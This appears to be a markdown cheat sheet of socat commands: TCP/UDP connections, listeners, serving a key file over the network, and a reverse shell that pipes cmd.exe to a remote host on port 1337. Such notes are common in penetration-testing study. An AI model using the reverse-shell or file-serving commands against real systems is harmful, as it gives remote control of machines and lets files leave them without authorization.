 # Socat

* ***Connect to tcp/udp***

```shell
socat - TCP4:10.10.10.10:80
```
<img width="557" alt="Screen Shot 2021-12-04 at 14 20 20" src="https://user-images.githubusercontent.com/92652606/144711022-1eb74d18-7ae9-4984-8d1a-a29d850142e8.png">

```shell
socat - UDP:10.0.0.0:53 
```
* ***Listening on a tcp/udp***

```shell
socat TCP4-LISTEN:1337 STDOUT
```

```shell
socat UDP-LISTEN:1337 STDOUT
```

* ***File Transfer***

```shell 
socat TCP4-LISTEN:1337,fork file:~/home/mastermind/key.txt # the file we will send 
```
```shell
socat - TCP4:0.0.0.0:1337 # TO download the file 
```
<img width="1038" alt="Screen Shot 2021-12-04 at 14 30 15" src="https://user-images.githubusercontent.com/92652606/144711309-69a659bf-52f3-41b4-9813-1016ca2d1051.png">

* ***Reverse Shell***

```shell
socat -d -d TCP4-LISTEN:1337 STDOUT # A LISTENER 
```
<img width="1081" alt="Screen Shot 2021-12-04 at 14 37 21" src="https://user-images.githubusercontent.com/92652606/144711609-e9fbe69c-25c2-4463-b0ac-9bf295bf316b.png">

```shell
socat - TCP4:192.168.1.107:1337 EXEC:cmd.exe
```
![screen](https://user-images.githubusercontent.com/92652606/144711614-8cb7efd5-d811-496a-aca0-1e334362ae33.png)

